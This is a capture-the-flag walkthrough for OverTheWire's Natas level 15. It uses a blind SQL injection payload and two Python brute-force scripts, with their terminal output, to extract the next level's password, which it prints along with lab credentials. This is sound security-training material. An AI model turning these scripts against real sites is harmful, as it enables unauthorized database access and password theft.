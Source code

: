 `Link` : `https://overthewire.org/wargames/natas/natas15.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟒 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟓
## 𝐆𝐢𝐯𝐞𝐧
- Username: natas15
- URL:      `http://natas15.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

- Visit:      `http://natas15.natas.labs.overthewire.org`
- Notice username field
- Try `"`, we get `error in query`
- Possiblity of blind SQL injection
- Let's check if `natas16` exists? It exists
- `natas16" and "" "` - works perfectly as a payload
- From source code we noticed that there are two columns in a table - `username` & `password`
- we have to retrieve `password`
- `SQL Like` operator can be used for that. More about it here:
  - `https://www.w3schools.com/sql/sql_like.asp`
  -  `LIKE` is non case sensitive
  -  `LIKE Binary` is case sensitive

- Let's check password is made of which characters:

```
# brute forcing password of natas 15

import requests
from requests.auth import HTTPBasicAuth

characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

username = "natas15"
password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

user_exists = "This user exists."
char_exists = ""




for char in characters:
    url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and password like binary' + "'%" + char + "%'" + '"' 
    response = requests.get(url, auth= (username, password) )
    print("checked: ", char)
    if user_exists in response.text:
        char_exists += char
        
print("character exists ", char_exists)

```
```
┌──(shreyas㉿kali)-[~/scripts]
└─$ python3 existing-chars-natas15.py
checked:  a
checked:  b
checked:  c
checked:  d
checked:  e
checked:  f
checked:  g
checked:  h
checked:  i
checked:  j
checked:  k
checked:  l
checked:  m
checked:  n
checked:  o
checked:  p
checked:  q
checked:  r
checked:  s
checked:  t
checked:  u
checked:  v
checked:  w
checked:  x
checked:  y
checked:  z
checked:  A
checked:  B
checked:  C
checked:  D
checked:  E
checked:  F
checked:  G
checked:  H
checked:  I
checked:  J
checked:  K
checked:  L
checked:  M
checked:  N
checked:  O
checked:  P
checked:  Q
checked:  R
checked:  S
checked:  T
checked:  U
checked:  V
checked:  W
checked:  X
checked:  Y
checked:  Z
checked:  0
checked:  1
checked:  2
checked:  3
checked:  4
checked:  5
checked:  6
checked:  7
checked:  8
checked:  9
character exists  acehijmnpqtwBEHINORW03569
```

- Brute Forcing the password:
```
import requests

character_container = "acehijmnpqtwBEHINORW03569"
print(f"Character container: {character_container}")

username = "natas15"
password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

user_exists = "This user exists."
natas16_password = ""

remaining = 32 - len(natas16_password)
while remaining:
    for char in character_container:
        url = 'http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and password like binary' + "'" + natas16_password + char + "%'" + '"'
        response = requests.get(url, auth= (username, password))
        if user_exists in response.text:
            natas16_password += char
            remaining = 32 - len(natas16_password)
    print(f"remaining length: {remaining} & password: {natas16_password}")




```
```
┌──(shreyas㉿kali)-[~]
└─$ python3 brute-forcing-natas15.py
Character container: acehijmnpqtwBEHINORW03569
remaining length: 31 & password: W
remaining length: 29 & password: WaI
remaining length: 28 & password: WaIH
remaining length: 27 & password: WaIHE
remaining length: 23 & password: WaIHEacj6
remaining length: 22 & password: WaIHEacj63
remaining length: 21 & password: WaIHEacj63w
remaining length: 19 & password: WaIHEacj63wnN
remaining length: 18 & password: WaIHEacj63wnNI
remaining length: 16 & password: WaIHEacj63wnNIBR
remaining length: 15 & password: WaIHEacj63wnNIBRO
remaining length: 14 & password: WaIHEacj63wnNIBROH
remaining length: 12 & password: WaIHEacj63wnNIBROHeq
remaining length: 10 & password: WaIHEacj63wnNIBROHeqi3
remaining length: 8 & password: WaIHEacj63wnNIBROHeqi3p9
remaining length: 6 & password: WaIHEacj63wnNIBROHeqi3p9t0
remaining length: 4 & password: WaIHEacj63wnNIBROHeqi3p9t0m5
remaining length: 3 & password: WaIHEacj63wnNIBROHeqi3p9t0m5n
remaining length: 1 & password: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
remaining length: 0 & password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

```
- `remaining length: 0 & password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`


---

## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠
- SQL Like: 
  - `https://www.w3schools.com/sql/sql_like.asp`
  - `https://www.youtube.com/watch?v=ZABT_3t4Iew`
- Web scraping using python: `https://www.youtube.com/watch?v=uufDGjTuq34`
- Authenticating using python requests: `https://www.geeksforgeeks.org/authentication-using-python-requests/`
- Python Request module: `https://www.w3schools.com/python/module_requests.asp`
- Cut paste in vim: `https://linuxize.com/post/how-to-copy-cut-paste-in-vim/`
